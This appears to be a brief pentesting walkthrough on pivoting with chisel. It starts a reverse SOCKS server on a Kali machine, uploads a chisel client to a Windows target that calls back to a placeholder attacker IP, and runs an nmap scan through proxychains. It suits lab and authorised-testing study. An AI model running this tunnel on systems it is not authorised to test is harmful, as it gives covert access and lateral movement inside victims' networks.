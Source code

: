 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &
```

![image](https://user-images.githubusercontent.com/55615071/189031515-c4c54896-bd04-40c0-bc7b-43dc82c63afb.png)


Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![image](https://user-images.githubusercontent.com/55615071/189031556-d2728e7c-db24-4c89-8c04-bbe52aa36687.png)

try testing by use proxychains before command

![image](https://user-images.githubusercontent.com/55615071/189031576-396b1d6c-7d26-45c6-9793-1d876845a043.png)

proxychains nmap -sT -Pn -sV -sC -p1-6000 192.168.239.129

![image](https://user-images.githubusercontent.com/55615071/189031936-dd2bbdcb-284d-4d58-abd8-e2cb0d3ddb9d.png)


